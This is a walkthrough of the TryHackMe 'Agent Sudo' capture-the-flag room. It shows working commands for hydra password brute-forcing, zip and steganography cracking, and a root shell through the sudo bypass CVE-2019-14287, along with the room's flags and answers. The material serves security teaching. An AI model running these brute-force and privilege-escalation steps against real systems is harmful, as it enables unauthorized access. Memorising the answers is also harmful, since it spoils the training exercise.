




# Agent Sudo

## Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

## [Task 1] Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

Deploy the machine

No answer needed

## [Task 2] Enumerate

Enumerate the machine and get all the important information

### 2.1 - How many open ports?

Let's start with an Nmap scan. The scan reveals three open ports: 

* 21 fpt
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Answer: `3`

### 2.2 - How you redirect yourself to a secret page?

Let's start with the webpage. By navigating to it, we get this message that tells us we need to use `user-agent` to access the site:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Agent_Sudo]
└─$ curl -s "http://$IP/" | html2text   

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
~~~

Answer: `user-agent`

### 2.3 - What is the agent name?

Now we can guess that we need to use a codename as user-agent to proceed. I tried letter `R` to test it and look at the message we got:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Agent_Sudo]
└─$ curl -s -A "R" "http://$IP/" | html2text
What are you doing! Are you one of the 25 employees? If not, I going to report
this incident
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
~~~

So my guess was correct and we just need to find the right codename (letter). I used `Burpsuite`'s "Intruder" to be able to check the responses better. If you don't know how to, follow the steps bellow:

1. First intercept a request and use "Ctrl + I" to send the request to intruder.

2. Now go to Intruder > Position and add two of `§` in front of the "User-agent" as shown below. You can add them by clicing on "Add §" button on the right hand:

3. Now go to next section which is "Payloads" and in "Payload Options" add the English alphabet as shown below:

4. Now you just need to click on Start attack and wait till it's done.

After we're done, you can see that the letter `C` has different status code and length:

Click on it and go to response and pay attention to the "Location" field:

We have found a new page: `agent_C_attention.php`. Let's navigate to this page to see what we can find:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ curl -s "http://$IP/agent_C_attention.php" | html2text
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also,
change your god damn password, is weak!

From,
Agent R
~~~

We found Agent C's fullname.

Answer: `chris`

## [Task 3] Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

### 3.1 - FTP password

Now that we have a username, we can try to brute-force the password on FTP and SSH service since we know the password of this user is weak. I ran the brute-force attack on both of them and successfully found the password for the FTP service using `hydra` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Agent_Sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-15 08:04:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.59.71:21/
[21][ftp] host: 10.10.59.71   login: chris   password: crystal
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
~~~

Answer: `crystal`

### 3.2 - Zip file password

Let's log into the ftp service to see what we can find there using the creds we found (`chris:crystal`). There are three files there and I downloaded all three of them:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ ftp $IP
Connected to 10.10.59.71.
220 (vsFTPd 3.0.3)
Name (10.10.59.71:user): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||50962|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *

[REDACTED]
~~~

First let's read `To_agentJ.txt`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ cat To_agentJ.txt          
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
~~~

Now we know that Agent `J`'s password is hidden in one of the pictures. I couldn't extract anything from the jpg file so I started working on the png file and was able to extract a zip file from it using `binwalk`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ binwalk cutie.png -e

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
l34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ ls _cutie.png.extracted 
365  365.zlib  8702.zip  To_agentR.txt
~~~

Unfortunately, we need a password to extract the zip file (the txt file you see is empty). In order to crack the password of the zip file, I used an additional tool called `zip2john` which changes the format of the zip file to be crackable for `john`.

Then I ran `john` with `rockyou` wordlist and successfully cracked its password:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ zip2john 8702.zip > hash

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (00000067.zip/To_agentR.txt)     
1g 0:00:00:01 DONE (2021-12-15 09:39) 0.9433g/s 23184p/s 23184c/s 23184C/s chatty..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

Zip file password: `alien`

### 3.3 - steg password

Let's extract the file(s) inside the zip file using our password (`alien`). After doing so, we get a file named `To_agentR.txt`. Let's read it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
~~~

Here we can see a weird string which is base64 encoded and after decoding it, we get `Area51`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ echo "QXJlYTUx" | base64 -d                                                       
Area51
~~~

I used it on `cute-alien.jpg` to see if I can exctract anything from it using `steghide` and got a txt file named `message.txt`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ steghide extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
~~~

Answer: `Area51`

### 3.4 - Who is the other agent (in full name)?

Let's read the message now:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ cat message.txt      
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
~~~

We found the full name of agent J.

Answer: `james`

### 3.5 - SSH password

We also got the ssh password for user `james` in that message.

SSH password: `hackerrules!`

## [Task 4] Capture the user flag

You know the drill.

### 4.1 - What is the user flag?

Let's connect to the machine via ssh service as user `james` using the creds we found (`james:hackerrules!`). We can find the user flag in james' home directory:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ ssh james@$IP
james@10.10.59.71's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

[REDACTED]

james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
~~~

User flag: `b03d975e8c92a7c04146cfa7a5a313c7`

### 4.2 - What is the incident of the photo called?

There is also an image in james' home directory. In order to display it, we need to transfer it to our machine. I'm gonna use `scp` (we can also base64 encode the image and decode the output on our machien, but I want you to see the use of `scp`):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Agent_Sudo/files]
└─$ scp james@$IP:/home/james/Alien_autospy.jpg .
james@10.10.59.71's password: 
Alien_autospy.jpg
~~~

This is the photo:

I used Google Images search engine to find the name of the incident. You just need to uplaod the photo and apparently it's called "Roswell incident" also known as "Roswell alien autopsy". Search it yourself and you might find it interesting.

Answer: `Roswell alien autopsy`

## [Task 5] Privilege escalation

Enough with the extraordinary stuff? Time to get real.

### 5.1 - CVE number for the escalation

It's privilege escalation time. The first thing I did was running `sudo -l` to check my sudo permissions:

~~~
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
~~~

What you see here means we can run `bash` with sudo and no password as any user, except `root`. I had some guesses about what we should do here, so I ran `sudo -V` to check the sudo version and make sure:

~~~
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
~~~

My guess was right and this is a famous sudo vulnerability. Read [this blog](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/) to understand this vulnerability and why the exploit works.

CVE: `CVE-2019-14287`

### 5.2 - What is the root flag?

We can easily switch to `root` by running the following command and spawning a root shell:

~~~
$ sudo -u#-1 /bin/bash
~~~

Here's the result:

~~~
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
~~~

Now we are root and we can head to `/root` and read the root flag:

~~~
root@agent-sudo:~# cd /root
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
~~~

Root flag: `b53a02f55b57d4439e3341834d70c062`

### 5.3 - (Bonus) Who is Agent R?

In the last line, agent R tells us the name.

Answer: `DesKel`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )